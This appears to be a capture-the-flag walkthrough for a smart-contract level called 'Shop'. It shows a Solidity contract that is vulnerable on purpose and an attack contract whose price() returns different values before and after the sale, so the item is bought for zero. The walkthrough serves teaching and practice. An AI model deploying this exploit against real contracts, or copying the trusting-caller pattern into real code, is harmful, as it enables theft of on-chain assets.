

# Challenge 21



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

Challenge
---
> Сan you get the item from the shop for less than the price asked?

Solution
---
1. If you look at the first Contract it's Similar to the `Elevator`, here `isSold` becomes true then it's price will modify.

we need to make our bool `isSold` `0` (false) to `1` (true) then we will set the price, let's make contract.

```solidity
contract ShopAttack {
    Shop shopAddress;
    uint256 timesCalled = 1;

    constructor() {
        shopAddress = Shop(YOUR_INSTANCE_ADDRESS);
    }

    function attack() public {
        shopAddress.buy();
    }

    function price() external view returns (uint256) {
        return shopAddress.isSold() ? 0 : 100;
    }
}
```

now submit the instance and you will level pass the Level 🎉.